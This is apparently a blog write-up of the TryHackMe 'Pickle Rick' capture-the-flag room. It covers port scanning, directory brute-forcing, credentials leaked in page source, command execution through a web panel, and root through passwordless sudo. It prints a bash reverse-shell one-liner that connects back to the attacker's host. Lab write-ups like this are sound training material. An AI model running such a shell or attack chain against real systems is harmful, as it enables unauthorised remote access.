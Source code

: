 ```yaml
---
title: THM | Pickle Rick
image: /images/pickle-rick.jpeg
date: 2020-08-25 09:00:00 -4:00
categories: [CTF, THM]
tags: [nmap, dirb, gobuster, nikto, webapp] # add tag
---
```


# Description

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

> Difficulty: Easy
> 
> Link: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

![](/images/picklerick.gif)

# Task 1.1 - What is the first ingredient Rick needs?

## Information Gathering

Start off with a basic nmap scan to see what is available to us.

![](/images/pr-nmap.png)

| Argument | Description |  
| :---: | :---: |  
| -sCV | Combines -sC and -sV into one argument (-sC uses default scripts and -sV gets service/version info) |  
| -v | Increase verbosity level (use -vv or more for greater effect) |

```console
Not shown: 998 closed ports                                                                                                                                  
PORT   STATE SERVICE VERSION                                                                                                                                 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)                                                                            
| ssh-hostkey:                                                                
|   2048 60:c4:d7:0e:d3:88:40:2d:bd:4d:5d:e5:c9:56:8b:c0 (RSA)                
|   256 84:c5:c3:e5:6c:3a:ac:bc:95:fb:47:7e:b7:7f:82:2f (ECDSA)               
|_  256 ab:da:0a:62:72:cb:cd:bc:99:7b:cc:a5:37:a0:29:b9 (ED25519)                                                                                            
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                           
| http-methods:                                                               
|_  Supported Methods: GET HEAD POST OPTIONS                                  
|_http-server-header: Apache/2.4.18 (Ubuntu)                                  
|_http-title: Rick is sup4r cool                                                                                                                             
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the above output we learn that ports **22** and **80** are open. It's good practice to have another scan going that checks for all ports just in case there is an unusual port open. Nothing else is open on this box.

## Webpage

Let's poke around the webpage in a browser and see what's there.

![](/images/pr-homepage.png)

Just a page with an image and a message with our task. Let's check out the source code.

```html
<!DOCTYPE html>
<html lang="en">
<head>
<title>Rick is sup4r cool</title>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="stylesheet" href="[assets/bootstrap.min.css](http://10.10.85.173/assets/bootstrap.min.css)">
<script src="[assets/jquery.min.js](http://10.10.85.173/assets/jquery.min.js)"></script>
<script src="[assets/bootstrap.min.js](http://10.10.85.173/assets/bootstrap.min.js)"></script>
<style>
.jumbotron {
background-image: url("assets/rickandmorty.jpeg");
background-size: cover;
height: 340px;
}
</style>
</head>
<body>
<div class="container">
<div class="jumbotron"></div>
<h1>Help Morty!</h1></br>
<p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
<p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
</div>
<!--
Note to self, remember username!
Username: R1ckRul3s
-->
</body>
</html>
```

Much more helpful, there is a username given in a comment.

## Gobuster

I'm going to use gobuster to brute force directory names on the server.

![](/images/pr-gobuster2.png)

Go to the robots.txt page and see what's there.

![](/images/pr-robots.png)

Just a blank page with the word *Wubbalubbadubdub*. Looks like a password to me, so now we have some potentially valid credentials. I initially tried logging into SSH with these, but they were not working. So I used **nikto** to enumerate further.

## nikto

![](/images/pr-nikto2.png)
>*Note: This scan will take a long time to finish.*

Nikto found **/login.php**. Perfect, now we have another place to try our credentials. 

![](/images/pr-login.png)

Our creds work here and it brings us to a command panel that gives us command execution on the server.

![](/images/pr-command-portal.png)

Let's see where we are and what's here. We've found the first ingredient.

![](/images/pr-ls2.png)

Using the cat command doesn't work from here though.

![](/images/pr-cat.png)

I used **strings** as an alternative.

![](/images/pr-firstflag.png)

Finally, we have the first ingredient.

# Task 1.2 - Whats the second ingredient Rick needs?
## Reverse Shell
So from here my main goal was to get a reverse shell on to the box, I always use [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for reference. I tried a nc shell, didn't work, then tried a php shell, didn't work. I was actually stuck here for a bit and just trying random shells in the command panel. Turns out you have to evoke a bash command before the nc shell syntax.
```bash
bash -c "bash -i >& /dev/tcp/10.6.11.75/9001 0>&1"
```

This works, so just set up a nc listener on the port you chose, in my case I'll use 9001.
![](/images/pr-nc.png)

Now that we have a shell I want to see if we can access another user's directory and just poke around the system. Lucky for us rick's home directory has full 777 permissions on it. Inside his directory is the second ingredient.

![](/images/pr-secflag2.png)

# Task 1.3 - Whats the final ingredient Rick needs?
## Privilege Escalation
There is only one flag left to get, so I just assume I will need to be root to get it. I thought for sure I would need to escalate to rick's account before I could get root's, but that's not the case here. Normally it doesn't make sense to check the sudo permissions of the www-data account because we don't even have a password, and by default this account has no permissions other than what's needed to operate the web server. 

This is a good example of just doing the easy priv esc checks before over thinking it. So check the sudo permissions of our current account.
![](/images/pr-sudo-l.png)

Boom. That's right, the www-data account has full sudo permissions with no password needed. Very weird. In fact, you can complete all the tasks from the command panel on the web page by using sudo. No reverse shell needed.

Just do a sudo su and you will have root.
![](/images/pr-3flag.png)

That's it, machine rooted and all task complete.

